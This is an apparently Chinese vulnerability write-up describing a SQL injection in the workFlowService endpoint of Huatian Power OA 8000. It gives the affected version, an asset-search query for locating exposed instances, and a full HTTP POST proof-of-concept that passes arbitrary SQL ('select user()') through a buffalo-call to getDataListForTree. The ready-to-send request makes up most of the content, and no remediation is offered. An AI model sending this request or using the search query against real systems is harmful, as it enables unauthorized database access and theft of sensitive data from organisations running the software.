


华天动力OA 8000版 workFlowService SQL注入漏洞¶
漏洞描述¶
华天动力OA 8000版 workFlowService接口存在SQL注入漏洞，攻击者通过漏洞可获取数据库敏感信息
漏洞影响¶
华天动力OA 8000版
网络测绘¶
app="华天动力-OA8000"
漏洞复现¶
产品页面

发送请求包验证漏洞
POST /OAapp/bfapp/buffalo/workFlowService HTTP/1.1
Host: 、
Accept-Encoding: identity
Content-Length: 103
Accept-Language: zh-CN,zh;q=0.8
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Accept-Charset: GBK,utf-8;q=0.7,*;q=0.3
Connection: keep-alive
Referer: http://www.baidu.com
Cache-Control: max-age=0
<buffalo-call>
<method>getDataListForTree</method>
<string>select user()</string>
</buffalo-call>
